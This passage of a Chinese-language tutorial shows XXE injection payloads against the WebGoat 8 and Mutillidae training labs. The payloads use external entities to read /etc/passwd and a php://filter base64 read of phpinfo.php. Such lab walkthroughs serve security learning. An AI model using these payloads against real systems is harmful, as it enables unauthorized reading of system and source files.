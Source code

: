 得到的结果再base64解码即可。

## 2.webgoat8

### 测试方法

试一试是否可以添加实体的评论：

```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY test "THIS IS A STRING!">
]>
<comment><text>&test;</text></comment>
```

可以的话，试试file：

```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<comment><text>&test;</text></comment>
```

## 3.MUTILLIDAE

要获取mutillidae上的文件，要在form表单提交的过程中使用测试的payload：

```
<?xml version="1.0"?> <!DOCTYPE a
[<!ENTITY TEST SYSTEM "file:///etc/passwd">]
>

<methodCall><methodName>&TEST;</methodName></methodCall>
```

或者把xml版本忽略掉：

```
<!DOCTYPE a
[<!ENTITY TEST SYSTEM "file:///etc/passwd">]
>

<methodCall><methodName>&TEST;</methodName></methodCall>
```

以及上面提到的php流：

```
<!DOCTYPE a
[<!ENTITY TEST SYSTEM "php://filter/convert.base64-encode/resource=phpinfo.php">]
>
<methodCall><methodName>&TEST;</methodName></methodCall>
```
